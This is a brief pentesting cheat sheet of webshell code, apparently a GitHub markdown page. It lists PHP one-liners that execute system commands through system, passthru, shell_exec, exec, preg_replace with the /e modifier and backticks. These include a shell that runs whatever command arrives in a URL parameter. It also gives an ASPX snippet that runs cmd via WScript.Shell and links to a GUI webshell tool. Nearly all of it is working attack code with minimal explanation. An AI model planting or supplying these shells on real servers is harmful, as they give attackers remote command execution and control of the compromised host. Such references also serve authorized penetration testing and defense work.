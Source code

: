 # PHP Webshells

#### Execute one command
```<?php system("whoami"); ?>```

#### Take input from the url paramter. shell.php?cmd=whoami
```<?php system($_GET['cmd']); ?>```

#### The same but using passthru
```<?php passthru($_GET['cmd']); ?>```

#### For shell_exec to output the result you need to echo it
```<?php echo shell_exec("whoami");?>```

#### Exec() does not output the result without echo, and only output the last line. So not very useful!
```<?php echo exec("whoami");?>```

#### Instead to this if you can. It will return the output as an array, and then print it all.
```<?php exec("ls -la",$array); print_r($array); ?>```

#### preg_replace(). This is a cool trick
```<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>```

#### Using backticks
```<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>```

#### Using backticks
```<?php echo `whoami`; ?>```

#### Web shell with GUI
Try Sweetuu : ```github.com/cspshivam/sweetuu```

# ASPX Webshell

#### Execute Command
```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

This shell can be binded with ```web.config``` file

